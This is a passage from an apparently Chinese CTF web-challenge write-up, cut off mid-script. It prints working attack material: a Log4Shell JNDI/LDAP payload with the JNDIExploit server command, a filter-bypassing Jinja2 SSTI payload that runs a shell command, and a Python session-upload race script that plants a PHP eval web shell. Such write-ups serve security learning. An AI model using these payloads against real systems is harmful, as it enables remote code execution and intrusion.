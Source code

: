 [https://www.freebuf.com/vuls/309584.html](https://www.freebuf.com/vuls/309584.html)

[https://github.com/WhiteHSBG/JNDIExploit](https://github.com/WhiteHSBG/JNDIExploit)

直接用 payload 打就行

启动 ldap

```bash
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i x.x.x.x -p 65222
```

get 传参

```
payload=${jndi:ldap://x.x.x.x:1389/TomcatBypass/TomcatEcho}
```

注意后面要 urlencode 一次

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210151153455.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210151154124.png)

查看 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210151155984.png)

### ssssti

简单 ssti, 过滤了下划线, 单双引号

`request.args.a` 用不了, 过滤了 args 关键词, 但是 `request.values.a` 能用

```
http://43.143.7.127:28093/?name={{lipsum[request.values.a][request.values.b][request.values.c](request.values.d).popen(request.values.e).read()}}&a=__globals__&b=__builtins__&c=__import__&d=os&e=cat /flag
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210171842317.png)

### QAQ_1inclu4e

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201133595.png)

开头有点谜语人, 猜了好久的参数, 最后试出来是 `QAQ`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201134761.png)

过滤了点号和 php 关键词

换个思路, 尝试 session 文件包含

```python
import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait

target = 'http://43.143.7.127:28077/index.php'
flag = 'xxxx'

def upload():
    files = [
        ('file', ('xx.txt', 'xxx')),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': "<?php file_put_contents('/tmp/xzxzxz', '<?php eval($_REQUEST[1]);phpinfo();?>');?>"}

    while True:
```